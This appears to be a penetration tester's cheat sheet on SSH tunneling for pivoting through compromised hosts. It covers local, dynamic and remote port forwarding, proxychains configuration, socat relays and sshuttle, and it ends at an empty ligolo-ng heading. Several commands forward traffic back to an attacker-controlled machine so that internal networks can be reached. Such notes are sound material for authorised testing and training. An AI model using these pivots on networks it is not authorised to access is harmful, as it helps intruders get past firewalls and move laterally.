 # SSH Tunneling

With all of these, it can be good just to verify that the machine is listening on a given port after the tunnel is created.
This can be done with `ss -ntplu`

## Local Port Forwarding

Local SSH tunnel from `$OWNED_IP1` to some `EXTERNAL_IP` (run this from `${OWNED_IP0}`).
```
ssh -N -L 0.0.0.0:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${USER}@${OWNED_IP1}
```
This will allow traffic to go `${ATTACKER_IP} <--> ${OWNED_IP}:${OWNED_PORT} <--> ${EXTERNAL_IP}:${EXTERNAL_PORT}` 

## Dynamic Port Forwarding

If we want to be able to port-scan or otherwise interact with multiple ports of targets not directly reachable from our network,
we can use `proxychains4` with OpenSSH's dynamic port forward option.

With the following, OpenSSH opens a SOCKS proxy server:

```
ssh -N -D 0.0.0.0:${OWNED_PORT0} ${USER}@${OWNED_IP1}
```

To make sure packages are sent in a compatible manner, we use `proxychains4`.
the default config is found in `/etc/proxychains4.conf`, but we can also specify a config file with `-f $pathToConfig`.

a config could be to add to a `proxychains4.conf`:

```
socks5 	${OWNED_IP0} ${OWNED_PORT0} 
```

Now, we can do eg. a call with smbclient like so:

```
proxychains4 -f proxychains4.conf smbclient ...
```
The trick is to use whatever tool you are calling with the same parameters you would otherwise with regards to IPs and ports, and just let proxychains handle the proxying.

## Remote Port Forwarding

(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

If the firewall setup doesn't allow us to SSH from `${OWNED_IP}`, which we have compromised, it can make sense to remote port forward back to our `${ATTACKER_IP}` with (run from `${OWNED_IP0}`):
```
ssh -N -R 127.0.0.1:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
Now, we can interact with `${EXTERNAL_IP}:${EXTERNAL_PORT}` via `127.0.0.1:${OWNED_PORT0}`.


## Remote Dynamic Port Forwarding
(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

Also, note that the OpenSSH client needs to be version 7.6 (from 2017) or above for this to work.

From `${OWNED_IP}`, we can also do remote dynamic port forwarding with:

```
ssh -N -R ${PROXYCHAINS_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
For this to work with `proxychains4`, we have to add the following to our config:

```
socks4 127.0.0.1 ${PROXYCHAINS_PORT}
```

Now, we can again interact with targets reachable from `${OWNED_IP}` from `${ATTACKER_IP}` by prefixing with `proxychains4` and then setting the IP/port of `${REMOTE_HOST}` we want to hit. 


## Utility tools

### sshuttle

sshuttle sets up a VPN-like connection between your machine and machines that are not directly reachable.

Get the subnets you want to tunnel through, and do:

socat port forward to the ssh server in `OWNED_IP1` and `OWNED_PORT1`:

```
socat -ddd TCP-LISTEN:${LISTENING_PORT0},fork TCP:${OWNED_IP1}:${OWNED_PORT1`}
```

Now, you get the subnets you want to tunnel through (these will be the subnets in `ip route` on `{OWNED_IP1}`) and do:

```
sshuttle -r ${USER}@${OWNED_IP0}:${OWNED_PORT0} ${SUBNET_IP1_1} ${SUBNET_IP1_2}
```
Once we authorize with local sudo and the pw of `$USER`,  we can now "directly" interact with hosts in `$SUBNET_IP1_2`, which were unreachable before.


### ligolo-ng

Consider looking into this tool.




### Ligolo-ng


